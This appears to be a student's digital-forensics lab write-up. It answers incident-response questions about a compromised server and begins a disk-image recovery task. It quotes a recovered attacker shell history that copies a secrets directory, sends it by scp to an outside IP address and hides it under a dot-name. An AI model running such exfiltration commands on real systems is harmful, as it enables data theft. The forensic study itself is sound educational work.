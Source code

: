 The output:

```
cp -r /secrets .
ls
scp -r secrets d000d@207.92.30.41   :~/
ls
mv secrets .elinks
ls
ls -alh
```

There we go! `jake` remotely copied all the files in `secrets` directory to the kid's IP address `207.92.30.41`. So it's resonable to conclude that this kid is responsible for the exploit.

- whether you think the server was indeed compromised

  - if so, how? if not, what actually happened?
  - give a blow-by-blow account if possible -- the more detail, the better!

```
The server was compromised. See above.
```

- whether you think the attacker accessed any sensitive information

```
The attacker stole data inside the `secrets` directory.
```

- your recovery of any meaningful data

```
No meaningful data was recovered.
```

- a discussion of what should be done before returning the system to production
  - For example, is it good enough to delete the obvious files? Could the system be trojaned?

```
All the users including `root` must have stronger passwords.
```

- recommendations as to how they can keep this from happening again

```
Tell the users to use a password generator.
```

- an estimate on how long this assignment took you

```
3 hours.
```

## Act III: The Wealthy Individual

Incident: Swiss bank account access codes are encrypted by attacker. Retrieve the codes.

```bash
cd /images
sudo ./loadimage.sh act3.img
sudo losetup /dev/loop0 act3.img -o 32256
sudo mount /dev/loop0 sda1
sudo losetup /dev/loop1 act3.img -o 1497000960
```
